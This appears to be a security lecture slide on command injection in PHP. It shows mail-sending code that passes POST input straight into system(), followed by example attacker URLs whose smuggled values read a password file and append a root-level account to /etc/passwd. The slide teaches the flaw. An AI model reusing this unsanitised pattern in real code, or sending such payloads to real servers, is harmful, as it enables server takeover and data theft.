

# More Command Injection in PHP
  $email = $_POST[“email”]
  $subject = $_POST[“subject”]
  system(“mail $email –s $subject < /tmp/joinmynetwork”)
Typical PHP server-side code for sending email

Attacker posts

  http://yourdomain.com/mail.pl?
     email=hacker@hackerhome.net&
     subject=foo < /usr/passwd; ls
or
  http://yourdomain.com/mail.pl?
     email=hacker@hackerhome.net&subject=foo;
     echo “evil::0:0:root:/:/bin/sh">>/etc/passwd; ls